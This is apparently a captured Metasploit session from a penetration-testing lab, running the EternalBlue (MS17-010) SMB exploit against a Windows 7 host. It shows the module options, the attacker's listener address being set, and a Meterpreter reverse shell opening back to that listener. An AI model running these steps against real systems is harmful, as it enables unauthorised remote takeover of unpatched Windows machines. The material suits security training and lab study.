 ```

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS         10.10.10.40      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs


msf5 exploit(windows/smb/ms17_010_eternalblue) > set LHOST 10.10.14.11
LHOST => 10.10.14.11
msf5 exploit(windows/smb/ms17_010_eternalblue) > run

[*] Started reverse TCP handler on 10.10.14.11:4444 
[*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.10.40:445       - Scanned 1 of 1 hosts (100% complete)
[*] 10.10.10.40:445 - Connecting to target for exploitation.
[+] 10.10.10.40:445 - Connection established for exploitation.
[+] 10.10.10.40:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.10.40:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.10.40:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.10.40:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.10.40:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.10.40:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.10.40:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.10.40:445 - Sending all but last fragment of exploit packet
[*] 10.10.10.40:445 - Starting non-paged pool grooming
[+] 10.10.10.40:445 - Sending SMBv2 buffers
[+] 10.10.10.40:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.10.40:445 - Sending final SMBv2 buffers.
[*] 10.10.10.40:445 - Sending last fragment of exploit packet!
[*] 10.10.10.40:445 - Receiving response from exploit packet
[+] 10.10.10.40:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.10.40:445 - Sending egg to corrupted connection.
[*] 10.10.10.40:445 - Triggering free of corrupted buffer.
[*] Sending stage (201283 bytes) to 10.10.10.40
[*] Meterpreter session 1 opened (10.10.14.11:4444 -> 10.10.10.40:49158) at 2020-06-15 16:03:08 +0900

[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
```